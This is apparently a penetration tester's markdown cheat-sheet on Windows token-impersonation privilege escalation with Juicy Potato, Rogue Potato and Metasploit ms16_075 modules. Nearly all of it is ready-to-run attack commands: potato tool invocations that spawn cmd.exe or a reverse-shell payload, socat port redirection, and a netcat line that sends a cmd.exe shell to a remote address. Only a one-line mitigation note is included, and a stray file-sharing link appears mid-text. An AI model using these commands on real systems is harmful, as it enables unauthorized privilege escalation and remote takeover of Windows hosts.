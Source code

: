 # Token Impersonation 


## Juicy potato

### First download .exe
[juicy potato](https://github.com/ohpe/juicy-potato)

### Second get clsid
[CLISID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
Or run it using -t *

### execute 


```
jp.exe -t * -p agent.exe -l 9001
.\jp.exe -t * -p file.bat -l 9001 -c "CLSID" 9001
-p # reverse shell we got in with or a script to run 
-c # clsid
-l # wanted port
```
Also can get a shell using netcat and batch
```
echo START c:\users\someone\nc.exe -e cmd.exe 10.10.10.10 9001
```

## Rouge Potato

**Must have SEimpersonate priv**

[Rouge Potato](https://github.com/antonioCoco/RoguePotato)

```
Examples:
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
        
```

### Mitigation

**Upgrade to Win10 >=1809,
Windows Server 2019!**


https://terabox.com/s/1V8AmQRx39oyqlbWR11W7tg
# Metasploit 

```ruby
use exploit/windows/local/ms16_075_reflection
use exploit/windows/local/ms16_075_reflection_juicy
```


---
Tags: #Windows_priv_esc #potato #ms16_075 #Token_impersonation 
Resources:
[juicy potato](https://github.com/ohpe/juicy-potato)
[Rouge Potato](https://github.com/antonioCoco/RoguePotato)
[CLISID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)